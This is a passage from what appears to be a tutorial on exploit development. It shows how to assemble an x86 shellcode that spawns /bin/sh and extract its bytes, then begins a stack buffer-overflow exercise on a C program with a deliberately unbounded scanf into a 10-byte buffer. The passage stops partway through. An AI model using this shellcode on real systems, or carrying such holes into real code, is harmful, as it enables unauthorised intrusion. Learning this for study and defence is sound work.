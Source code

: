 Use `nasm` to compile it.
`nasm -f elf shellcode.asm`

Now you would want to obtain the shell code bytes. What are they? They are
machine code that corresponds to those instructions.
How can we get those? `objdump` will help.
`objdump -d shellcode.o`
You will get something like.
```
shellcode.o:     file format elf32-i386
Disassembly of section .text:

00000000 <.text>:
   0:    31 c0                    xor    %eax,%eax
   2:    50                       push   %eax
   3:    68 2f 2f 73 68           push   $0x68732f2f
   8:    68 2f 62 69 6e           push   $0x6e69622f
   d:    89 e3                    mov    %esp,%ebx
   f:    50                       push   %eax
  10:    89 e2                    mov    %esp,%edx
  12:    53                       push   %ebx
  13:    89 e1                    mov    %esp,%ecx
  15:    b0 0b                    mov    $0xb,%al
  17:    cd 80                    int    $0x80
```
You can use the following shell code to get that extracted. :cool:
``for i in `objdump -d shellcode.o | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done``

Exploiting actual programs:
---

#### 1. Lets consider this code.
```c
#include <stdio.h>

void bar()
{
    printf("How come you entered into bar ?\n");
}

void foo()
{
    char buffer[10];
    scanf("%s", buffer);
    printf("Hello ji %s \n", buffer);
}

int main()
{
    foo();
    return 0;
}
```
The task is to change the control flow so that `bar` function is called.
Lets start doing it. Compilation instruction is there in the file.
Identify the buffer location and how far is $ebp from it.
`objdump -d ./first`
```
0804848b <bar>:
 804848b:    55                       push   %ebp
 804848c:    89 e5                    mov    %esp,%ebp
 ...

080484a4 <foo>:
```
